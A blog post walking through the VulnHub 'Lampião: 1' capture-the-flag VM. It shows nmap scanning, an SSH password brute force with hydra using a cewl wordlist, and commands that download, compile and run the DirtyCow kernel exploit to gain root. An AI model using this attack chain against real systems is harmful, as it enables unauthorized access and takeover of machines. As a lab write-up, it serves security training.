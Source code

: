 ```yaml
---
layout: post
date: 2018-08-06 10:42:58 +0000
last_modified_at: 2018-08-06 13:22:13 +0000
title: "Lampião: 1 Walkthrough"
subtitle: "Hero or Villain?"
category: Walkthrough
tags: [VulnHub, "Lampiao"]
comments: true
image:
  feature: lampiao-1-walkthrough.jpg
  credit: Voltordu / Pixabay
  creditlink: https://pixabay.com/en/darth-vader-star-wars-geek-1207142/
---
```


This post documents the complete walkthrough of Lampião: 1, a boot2root [VM][1] created by [Tiago Tavares][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

"Captain" Virgulino Ferreira da Silva, better known as **Lampião**, was the most famous bandit leader of the Cangaço. The aim is to get `root`.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?   syn-ack ttl 64
| fingerprint-strings:
|   NULL:
|     _____ _ _
|     |_|/ ___ ___ __ _ ___ _ _
|     \x20| __/ (_| __ \x20|_| |_
|     ___/ __| |___/ ___|__,_|___/__, ( )
|     |___/
|     ______ _ _ _
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
```

`nmap` finds `22/tcp`, `80/tcp` and `1898/tcp` open—and there's something interesting behind `80/tcp`.

![Son of a Bitch](/assets/images/posts/lampiao-1-walkthrough/8b3f5f0a.png)

"Fi duma égua" is a not-so-elegant word for referring to someone. I leave it for the curious reader to find out what it means. :laughing:

### Drupal

Another service worth exploring is Drupal, which runs behind `1898/tcp`. Here's how it looks like.

![Drupal](/assets/images/posts/lampiao-1-walkthrough/5e40c98e.png)

To be honest, I'm always excited to see non-English language in display because that means I can generate a wordlist from it. There's always a high chance of getting a password judging from my experience.

Let's use `cewl` to generate a wordlist from the post "**Lampião, herói ou vilão do Sertão?**". The command goes like this.

```
# cewl -w cewl.txt http://192.168.10.130:1898/?q=node/1
# wc -l cewl.txt
835 cewl.txt
```

### Hail Hydra

Notice the two usernames below: `tiago` and `eder`.

![Usernames](/assets/images/posts/lampiao-1-walkthrough/ba3ec0df.png)

Let's put them into a username list and go with `hydra` and the generated wordlist. Perhaps we can get lucky with SSH on our first attempt?

```
# echo tiago > usernames.txt
# echo eder >> usernames.txt
# hydra -L usernames.txt -P cewl.txt -f -e nsr -o hydra.txt -t 4 ssh://192.168.10.130
[22][ssh] host: 192.168.10.130   login: tiago   password: Virgulino
[STATUS] attack finished for 192.168.10.130 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Lucky indeed.

## Low-Privilege Shell

Not too shabby.

![shell](/assets/images/posts/lampiao-1-walkthrough/bd92b620.png)

## Privilege Escalation

Let's perform some basic enumeration to determine what we're dealing with.

```
$ uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
```

I'm going to use a [script](https://github.com/mzet-/linux-exploit-suggester) to suggest a couple of local privilege escalation exploits relevant to the distribution and kernel.

```
$ wget -q -O /tmp/linux-exploit-suggester.sh https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
$ chmod +x /tmp/linux-exploit-suggester.sh
$ /tmp/linux-exploit-suggester.sh
...
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

Let's test the exploit out.

```
$ wget -q -O /tmp/40847.cpp https://www.exploit-db.com/download/40847.cpp
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
$ ./dcow -s
```

![root](/assets/images/posts/lampiao-1-walkthrough/46ebbd22.png)

Boom.

### What's the Flag (WTF)?

![Flag](/assets/images/posts/lampiao-1-walkthrough/caa45484.png)

:dancer:

I wonder what's the significance of `lampiao.jpg` to the flag. Here's what `lampiao.jpg` looks like.

![Lampião](/assets/images/posts/lampiao-1-walkthrough/lampiao.jpg)

## Afterthought

The VM isn't hard. Don't think too deep, too far. Don't go down the rabbit hole. Tiago (the creator of this VM) laid down a bunch of teasers that may steer you off course.

One good example is `qrc.png` in the Drupal home directory.

![qrc.png](/assets/images/posts/lampiao-1-walkthrough/qrc.png)

It was decoded to "Try harder! muahuahua" :unamused:

Another example was the removal of read permissions of `/etc/cangaco/lampiao.*`. That's a good one. It piqued my curiosity so much I almost pulled out all my hair trying to read them.

[1]: https://www.vulnhub.com/entry/lampiao-1,249/
[2]: https://twitter.com/@tiagotvrs
[3]: https://www.vulnhub.com/

